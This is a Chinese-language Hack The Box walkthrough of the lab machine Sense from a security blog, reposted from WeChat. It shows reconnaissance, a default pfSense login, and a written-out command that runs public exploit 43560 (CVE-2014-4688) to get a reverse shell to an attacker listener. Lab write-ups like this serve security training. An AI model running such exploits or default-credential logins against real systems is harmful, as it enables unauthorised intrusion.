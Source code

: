 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/yRj5a00KiEgKGEod_kCTLg)

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **118** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_png/9qXnTkZPuxe8H1QicBcbrQQVKOeKw2PsaPtbkhed7icVWmmGk0o3VgYFqKdtNwPFicT2aW803Yp7DqjdiaoFRYVX3A/640?wx_fmt=png)

靶机地址：https://www.hackthebox.eu/home/machines/profile/111

靶机难度：初级（2.8/10）

靶机发布日期：2017 年 10 月 22 日

靶机描述：

Sense, while not requiring many steps to complete, can be challenging for some as the proof of concept exploit that is publicly available is very unreliable. An alternate method using the same vulnerability is required to successfully gain access.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/gUVKXuw5icTuicMe1TSd3CYPJzxFcxUnzpBLmOY2lYosbSmH5Ro01bJbqOVUwZ97d098kTPyiaWWicblornticcLu9w/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMvDrN7saaaJ28icObDuwasrIAE1wsrMq3WAm1N6WOvJjHO0Nsht0A8RykRHGIKbXlz9humzhpR9Vg/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.60....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMvDrN7saaaJ28icObDuwasrB6GDAnUJsQJQ8TKe0DmJiar8ANC3lGLuiaJrM6VBytoE8NSu28a6JqDw/640?wx_fmt=png)

Nmap 发现仅开放了 80 和 443 端口...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMvDrN7saaaJ28icObDuwasra4xpxkc5JALK4vyXN9GwVJxfZU1g66OlfQ2GlKKyW7lqFBibH5EJx5A/640?wx_fmt=png)

访问 80 跳转到了 443.... 是个 sense 框架服务页面... 需要知道账号密码... 爆破看看

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMvDrN7saaaJ28icObDuwasrw15TZwv3YkuIHEStACOuTklROdSBfQ6SOkCDLwNuoKWZHjfCZBvRbQ/640?wx_fmt=png)

通过爆破发现了两个重要的 txt 文件...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMvDrN7saaaJ28icObDuwasr5VwjibpT6fZGFx2w6t8p0MLVLnPuU6GsR9olu6UGu2KpCGo5ib7zaJVA/640?wx_fmt=png)

文本信息提示已修补 3 个漏洞中的 2 个... 有 EXP 可以利用...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMvDrN7saaaJ28icObDuwasrHn0DAAaAloiaddA0hfvhoKzDKL2QedqCbcUTXicWOMuz7pI3DGtyj9uw/640?wx_fmt=png)

给出了用户名...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMvDrN7saaaJ28icObDuwasrywSJ0ZhjcQwhPMJZ7HMlVdMkCpCUms6bYPSGBRExVFv7EQlLSkz5rw/640?wx_fmt=png)

通过简单搜索到了默认密码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMvDrN7saaaJ28icObDuwasryFd3QpdKZ1kZrWD3KCs64sWiaDia7DicFQia2WmzWpQjiawPiabPggyB4M1Q/640?wx_fmt=png)

利用默认密码成功登陆... 框架运行着 pfsense 2.1.3-RELEASE....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMvDrN7saaaJ28icObDuwasrdibWYsOmW8O2docvbAtNibJsia03yYDVDxpBBWFVYqhDiaARoloKomMQAw/640?wx_fmt=png)

直接本地搜索，发现了很多漏洞... 通过 google sense 存在的漏洞可利用 43560EXP...CVE-2014-4688

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMvDrN7saaaJ28icObDuwasr9RV9kQrID4OY6Z0HibYqQ03ExhtMzvNV5LxBpE0lgSK8vXX8ESvPCWQ/640?wx_fmt=png)

查看后发现直接利用即可 EXP.... 不需要修改

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMvDrN7saaaJ28icObDuwasrAOaWyb8VrkoU0XHaAB8BJZ71bMFM9FIrKtONcrT4DNiapY7kcuLJ9vQ/640?wx_fmt=png)

```
python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.51 --lport 6666 --username rohit --password pfsense
```

执行 EXP 成功获得了反向外壳... 获得了 user_flag 和 root_flag 信息.....

![](https://mmbiz.qpic.cn/mmbiz_png/9qXnTkZPuxe8H1QicBcbrQQVKOeKw2PsaPtbkhed7icVWmmGk0o3VgYFqKdtNwPFicT2aW803Yp7DqjdiaoFRYVX3A/640?wx_fmt=png)

这里也可以利用 39709 注入命令提权... 可以尝试下

由于我们已经成功得到 root 权限查看 user 和 root.txt，因此完成这台初级的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/gUVKXuw5icTuicMe1TSd3CYPJzxFcxUnzpBLmOY2lYosbSmH5Ro01bJbqOVUwZ97d098kTPyiaWWicblornticcLu9w/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)
